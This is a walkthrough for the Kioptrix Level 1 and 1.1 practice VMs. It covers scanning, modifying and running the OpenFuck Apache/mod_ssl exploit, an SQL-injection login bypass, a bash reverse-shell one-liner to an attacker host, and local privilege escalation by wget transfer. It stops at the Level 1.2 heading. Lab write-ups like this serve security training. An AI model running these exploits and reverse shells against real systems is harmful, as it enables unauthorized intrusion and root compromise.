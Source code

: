# kioptrix-full-walkthrough
<h1>Kioptrix Level 1</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.
>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

>enum4linux <i><b>[machine-ip]</b></i>

>dirb http://<i><b>[machine-ip]</b></i>

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for “apache 1.3.20 vulnerability”.

Search for the exploit via searchsploit
> searchsploit OpenFuck

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

## Modify the exploit code:

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

> cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

> vim OpenFuck.c

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

<b>Include the openssl rc4 and md5 libraries:</b>

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

<b>Install Libraries for compiling the modified exploit code:</b>

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

>./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199806037-13dfd40c-2bd7-4bd4-b3bf-6792315bb16b.png)

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 4:
Let’s take a deeper dive by inspecting what lies in the open port i.e. <i><b>[machine-ip]</b></i>:80

<b>N.B.</b> I reinstalled the machine, ts why the ip changed.

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener; putting the script below inside the console that we just took privilege:

>bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1 (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 5:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 6:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 7:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>
